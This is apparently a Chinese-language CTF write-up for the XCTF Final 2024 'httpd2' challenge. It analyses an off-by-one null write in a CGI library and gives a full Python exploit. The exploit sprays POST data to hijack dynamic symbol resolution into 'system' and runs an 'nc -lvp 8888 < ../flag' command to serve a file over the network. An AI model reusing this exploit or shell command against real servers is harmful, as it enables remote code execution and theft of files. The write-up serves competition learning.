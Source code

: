 ```yaml
---
data: 2024-07-20 16:31
challenge: httpd2
tags:
  - dlresolve
  - spary
---
```


> [!info]
> 题目本身不难，对于线下赛我认为工作量也是很合适的。针对动态链接的攻击非常有趣，是一道好题。
>
> 但是比赛期间我没有解出来（0 解），原因如下：
>
> 1. 题目存在两处漏洞，都是越界写。但是越界 buffer 的附近没有任何数据
> 2. 利用涉及喷射 - 命中的思路，线下赛期间感觉思路比较混乱
> 3. ~~此外就是被本地出了远程爆破半天出不来的 solo 题和虚拟机逆向题折磨得神志不清~~

## Analysis

cgi-bin 目录下一共给了三个文件，其中漏洞只有可能存在于 `libctfc.so`（因为另外两个都过于直白了），其中有用的洞是 `genCookie` 函数里的越界写 0：

```c
v4 = strlen(passwd);
sub_135A(dest, 1024LL, passwd, v4 + 1);
dest[v4] = 0;
```

<details>
<summary>调试summary>

这种题目的调试我一般使用 gdbserver，直接在 docker 里面安装，替换 main.cgi 内容为 `gdbserver 0.0.0.0:1234 ./real.cgi` 即可调试，相关脚本见 [initgdb.sh](./bin/cgi-bin/initgdb.sh)。

</details>

接下来进入调试

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# cli_script()
# set_remote_libc("libc.so.6")
#
# io: tube = gift.io
# elf: ELF = gift.elf
# libc: ELF = gift.libc

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

io = remote("127.0.0.1", 80)

while True:
    try:

        def get_payload(name, passwd, spary_payload):
            payload = b"POST /cgi-bin/main.cgi HTTP/1.1\r\n"
            payload += b"Host: localhost\r\n"
            payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
            payload += b"Connection: close\r\n"

            post_data = b"username=" + name + b"&passwd=" + passwd + spary_payload
            payload += f"Content-Length: {len(post_data)}\r\n".encode()
            payload += b"\r\n"
            payload += post_data
            payload += b"\r\n"
            return payload

        spary_payload = b""
        for i in range(0xC0 + 0x10, 0x5000, 8):
            if ((i - 8) & 0xFFF) == 0xEA0:
                spary_payload += b"&" + b"a" * 0x69 + b"%00system%00"
            else:
                spary_payload += b"&x"

        distance = 0x125F48
        payload = get_payload(
            b"nc -lvp 8888 < ../flag", b"a" * (distance + 2), spary_payload
        )
        s(payload)

        data = rl()
        print(data)
        assert b"500" not in data()

        ia()
    except:
        io.close()
        io = remote("127.0.0.1", 80)


# buf = 0x7ffff7e96300
# target_strtab = 0x7ffff7fbc248
```

---

## References

\[1\] [Official WP - xctf final 2024 httpd2 writeup](https://forum.butian.net/share/3123) . _[noir](https://forum.butian.net/people/32623)_
